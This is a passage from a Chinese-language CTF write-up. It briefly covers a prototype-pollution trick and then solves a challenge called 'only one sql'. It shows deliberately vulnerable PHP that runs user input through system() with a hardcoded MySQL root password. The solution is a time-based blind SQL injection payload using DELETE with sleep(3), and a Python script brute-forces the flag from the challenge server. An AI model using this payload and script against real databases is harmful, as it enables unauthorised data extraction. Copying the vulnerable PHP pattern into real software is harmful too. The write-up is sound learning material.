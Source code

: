 在read()函数里，会读取`__file__`变量，这个变量代表当前的文件的路径。`如果传入的参数数据中有新的属性，且类型匹配，就可以向 instance 对象注入新的属性或修改现有属性`，所以我们可以通过原型污染，把`__file__`变量伪造成`/flag`，这样就可以读到flag。

## [week4] only one sql

源码

```php
<?php
highlight_file(__FILE__);
$sql = $_GET['sql'];
if (preg_match('/select|;|@|\n/i', $sql)) {
    die("你知道的，不可能有sql注入");
}
if (preg_match('/"|\$|`|\\\\/i', $sql)) {
    die("你知道的，不可能有RCE");
}
//flag in ctf.flag
$query = "mysql -u root -p123456 -e \"use ctf;select '没有select，让你执行一句又如何';" . $sql . "\"";
system($query);
```

通过`show tables`,`show columns from flag`，拿到表名和字段名`id`,`data`，想着没有select查不了了，能力有限了

看了师傅们解题思路，眼前一亮。猜测flag在data字段里，使用`delete from flag where data like'f%' and sleep(3)`，这里非常细节，还用到了and的性质，前假会直接结束，不会执行后面的sleep函数，只有正则匹配到flag时，才会执行sleep函数，从而盲注出flag，sleep函数返回`null`，整个条件是永假，不会修改flag。

```python
import requests
import string
import time
import urllib.parse

# 测试，没有大写
sqlstr = '-{}abcdefghijklmnopqrstuvwxyz123456789'
url = "http://gz.imxbt.cn:20378/"
flag=''
for i in range(1,100):
    for c in sqlstr:
        params = {
        'sql': f"delete from flag where data like'{flag}{c}%' and sleep(3)",
        }
        # print(params)
        start_time = time.time()
        r = requests.get(url,params=params)

        end_time = time.time()
        # print(end_time-start_time)
        if (end_time-start_time) > 2:
            # print(c)
            flag = flag + c
            print(flag)
            break
```
